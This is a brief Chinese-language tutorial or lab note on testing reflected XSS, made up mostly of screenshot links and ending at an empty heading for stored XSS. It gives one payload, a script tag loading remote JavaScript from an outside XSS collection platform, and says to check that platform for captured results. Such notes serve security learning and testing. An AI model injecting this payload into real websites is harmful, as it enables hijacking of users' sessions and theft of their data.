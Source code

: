 <img src="../pictures/rlord21o87f.png" width="600" />


## 测试反射xss

```html
<script src=http://xssye.com/laPM></script>
```


将这条语句放入
<img src="../pictures/atlstgyd7pk.png" width="600" />

### 返回xss在线平台查看注入结果
<img src="../pictures/nicqpjhxmch.png" width="600" />


## 测试存储xss